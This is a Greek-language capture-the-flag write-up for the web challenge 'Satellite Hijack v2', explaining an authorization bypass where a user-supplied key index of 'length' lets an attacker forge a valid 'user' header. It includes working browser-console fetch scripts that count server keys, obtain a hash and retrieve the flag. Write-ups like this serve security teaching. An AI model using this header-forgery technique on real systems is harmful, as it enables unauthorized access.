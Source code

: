 # Writeup for Satellite Hijack v2

| Δοκιμασία | Satellite Hijack v2 |
| :------- | :----- |
| Δυσκολία | Μέτρια |
| Κατηγορία | Παγκόσμιος Ιστός (Web) |
| Λύσεις | 4 |
| Πόντοι | 589 |

## Περιγραφή Δοκιμασίας

Όπως και στην 1η εκδοχή της δοκιμασίας αυτής, η περιγραφή της και πάλι δεν μας δίνει πληροφορίες για το τι πρέπει να κάνουμε. Μας δίνεται και πάλι μια ιστοσελίδα και ο κώδικας της. Οπότε θα μπορούσαμε να ξεκινήσουμε από την ανάλυσή του κώδικα.

## Ανάλυση

Κοιτώντας τον κώδικα που μας δίνεται, βλέπουμε πως έχει αρκετές ομοιότητες με την προηγούμενη έκδοση (web εφαρμογή γραμμένη σε [TypeScript](https://www.typescriptlang.org/) η οποία τρέχει πάνω σε [Bun](https://bun.sh/)).

Και πάλι η εφαρμογή υλοποιεί ένα `/flag` endopoint (μέσα στο αρχείο `app.ts`) το οποίο μπορεί να εκτυπώσει την σημαία αν ο χρήστης είναι `authorized`:
```typescript
.get(
  "/flag",
  async ({ layout, flagPage, userId, keyHash, authorized, redirect }) => {
    if (!authorized) return redirect("/");

    const $ = cheerio.load(Buffer.from(await layout().arrayBuffer()));

    $("#user").html(userId);
    $("#coordinates").html(keyHash);
    $(".link").removeClass("has-text-link");
    $("#flag-link").addClass("has-text-link");

    $("#content").html(await flagPage().text());
    $("#flag").html(flag);
    return $.html();
  }
)
```

Οπότε και πάλι, στόχος μας είναι να μπορέσουμε να έχουμε πρόσβαση σαν `authorized` χρήστη.

Σε σχέση με την 1η έκδοση της δοκιμασίας, έχει αλλάξει ο κώδικας με τον οποίο ο χρήστης γίνεται `authorized`.

```typescript
.resolve(async ({ headers, cookie, jwt }) => {
  let userId = newUser();
  let authorized = false;

  if (headers.user) {
    const [user, key_id, tag] = headers.user.split(":"); // To "user" header μπορεί να περιέχει μέσα "UserID:KeyID:Tag"
    const key = secretKeys[key_id] ? secretKeys[key_id] : null;
    if (key && hashed(`${user}:${key}`).toString() === tag) { // Για να είναι ο χρήστης authorized θα πρέπει το hashed("UserID:Key") να ταυτίζεται με το Tag
      authorized = true;
    }

    userId = user;
  }

  if (cookie.token.value) {
    const verification = await jwt.verify(cookie.token.value);

    if (verification) {
      authorized = verification.authorized == "y";
      userId = verification.userId.toString();
    } else {
      cookie.token.remove();
    }
  } else {
    cookie.token.value = await jwt.sign({
      userId,
      authorized: authorized ? "y" : "n",
    });
  }
  
  let keyHash = hashed(secretKeys[userId % secretKeys.length]).toString();
  return { userId, keyHash, authorized };
})
```

Για να μπορέσουμε να γίνουμε `authorized` χρήστες, θα πρέπει να μπορέσουμε να κατασκευάσουμε ένα `user` header τύπου `UserID:KeyID:Tag`, για το οποίο το `hashed("UserID:Key")` (όπου `Key` είναι το κλειδί που αναφέρετε στο KeyID που στείλαμε) θα πρέπει να ταυτίζεται με το `Tag`.

Αφού δεν γνωρίζουμε τα κλειδιά, θεωρητικά δεν μπορούμε να ξέρουμε τι θα γυρίσει η εντολή `const key = secretKeys[key_id] ? secretKeys[key_id] : null;` για να μπορέσουμε να κατασκευάσουμε ένα σωστό `user` header... αλλά εδώ βρίσκεται και η ευπάθεια.

Μιας και η ανάκτηση του κλειδιού γίνεται καλώντας `secretKeys[key_id]` (όπου εμείς έχουμε έλεγχο του `key_id`), μπορούμε να δώσουμε αντί για νούμερο κάποιο άλλο attribute για το οποίο θα γνωρίζουμε το αποτέλεσμα της εντολής, π.χ. `secretKeys["length"]` το οποίο θα γυρίσει το μέγεθος του array, ή `secretKeys["concat"]` το οποίο θα γυρίσει μια συνάρτηση.

Θα μπορούσαμε λοιπόν στο `UserID:KeyID:Tag` αντί για αριθμό για το `KeyID` να στείλουμε `length`. Μιας και δεν ξέρουμε πόσα κλειδιά είναι στο array του server, θα μπορούσαμε να κάνουμε δοκιμές μέχρι να βάλουμε τον σωστό αριθμό. Εναλλακτικά, μπορούμε να κάνουμε αρκετά requests προς το `/about` endpoint το οποίο διαλέγει τυχαία ένα κλειδί και βάση αυτού εκτυπώνει κάποιες συντεταγμένες, και να μετρήσουμε τον αριθμό των διαφορετικών αποτελεσμάτων, το οποίο και θα είναι ο αριθμός των κλειδιών.

Με την χρήση του παρακάτω κώδικα (ο οποίος μπορεί να εκτελεστεί στην κονσόλα του περιηγητή μας), μπορούμε να υπολογίσουμε των αριθμό των κλειδιών:
```javascript
function getCords(times, log) {
    if (times <= 0) {
        console.log(log);
        console.log('Number of different cords:', log.length);
        return;
    }
    console.log(times);
    fetch("/about", {
        method: "GET",
        credentials: "omit"
    }).then(x => x .text()).then(x => {
        let cords = x.match(/<div id="coordinates"[^>]*>(\d+)</)[1];
        if (!log.includes(cords)) log.push(cords)
        getCords(times - 1, log);
    });
}
getCords(100, []);
```

Και πήραμε σαν αποτέλεσμα πως μάλλον υπάρχουν 10 κλειδιά στον server:
```
Number of different cords: 10
```

Στην συνέχεια μπορούμε να ζητήσουμε από τον server να μας δημιουργήσει ένα hash για το αλφαριθμητικό `1:10` (UserID 1 και Κey Value 10) για κατασκευάσουμε ένα σωστό Tag:
```javascript
fetch("/hash", {
    method: "POST",
    headers: {"Content-Type": "application/json"},
    body: JSON.stringify({ data : '1:10' }),
}).then(x => x .text()).then(x => console.log(x));
```

Ο server μας γυρνάει το hash:
```
{"hash":"1591375115499822604"}
```

Και μπορούμε τώρα να στείλουμε το hash αυτό, μαζί με UserID `1` και ΚeyID `length`:
```javascript
fetch("/flag", {
    method: "GET",
    headers: {"user": "1:length:1591375115499822604"},
    credentials: "omit"
}).then(x => x .text()).then(x => console.log(x.match(/\w+{[^}]+}/)[0]));
```

Το οποίο και θα μας γυρίσει το flag αφού ο χρήστης θα φαίνεται ως `authorized`.

